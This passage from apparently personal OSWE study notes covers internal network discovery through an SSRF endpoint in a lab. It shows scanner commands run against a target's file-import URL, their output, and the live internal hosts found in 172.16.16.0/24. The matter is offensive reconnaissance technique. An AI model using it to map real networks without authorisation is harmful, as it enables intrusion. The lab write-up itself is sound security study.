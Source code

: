 Balancing request timeouts is crucial during SSRF scanning. Waiting for every server response without a timeout makes scans very slow, while setting the timeout too low can overwhelm the server and result in false negatives. An optimal timeout value is needed to ensure scans are both efficient and accurate.

We'll write a new script to scan subnets for default gateways and constrain our port scanning to a single port to reduce scan time. The port we decide to scan does not matter since we are only attempting to determine if the host is up.
ChatGPT said:

To scan for default gateways, `".1"` is used as the fourth octet in each IP address. Because the `10.0.0.0/8` and `172.16.0.0/12` networks have fixed first octets, nested loops are used to iterate through the second and third octets. Since scanning the `192.168.0.0/16` range produced no results, the focus shifts to the `172.16.0.0/12` range.

Script: [ssrf_gateway_scanner.py](https://github.com/m0hammad-yaser/OSWE-AWAE-Notes/blob/main/apigateway/ssrf_gateway_scanner.py)

Output:
```bash
kali@kali:~$ python3 ssrf_gateway_scanner.py -t http://apigateway:8000/files/import
Trying host: http://172.16.1.1
        8000     timed out
Trying host: http://172.16.2.1
        8000     timed out
...
Trying host: http://172.16.15.1
        8000     timed out
Trying host: http://172.16.16.1
        8000     OPEN - returned 404
Trying host: http://172.16.17.1
        8000     timed out
```
We found a live IP address at `172.16.16.1`. It may seem odd that a gateway has an open port but this may be an idiosyncrasy of the underlying environment. The important takeaway here is that it responded differently than the other IPs. Even a `"connection refused"` message would indicate we had found something interesting.

#### Host Enumeration
Now that we've identified a live IP address, let's copy our script to a new file named ssrf_subnet_scanner.py and modify it to scan just the subnet we previously identified for live IPs. It does not matter which port number we use in this scan. We can identify live hosts even if they refuse connections on the chosen port.

Script: [host_enum.py](https://github.com/m0hammad-yaser/OSWE-AWAE-Notes/blob/main/apigateway/host_enum.py) 

Output:
```bash
kali@kali:~$ python3 host_enum.py -t http://apigateway:8000/files/import --timeout 5
Trying host: 172.16.16.1
        8000     OPEN - returned 404
Trying host: 172.16.16.2
        8000     OPEN - returned 404
Trying host: 172.16.16.3
        8000     Connection refused, could be live host
Trying host: 172.16.16.4
        8000     Connection refused, could be live host
Trying host: 172.16.16.5
        8000     Connection refused, could be live host
Trying host: 172.16.16.6
        8000     Connection refused, could be live host
Trying host: 172.16.16.7
        8000     {"errors":[{"message":"connect EHOSTUNREACH 172.16.16.7:8000","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
Trying host: 172.16.16.8
```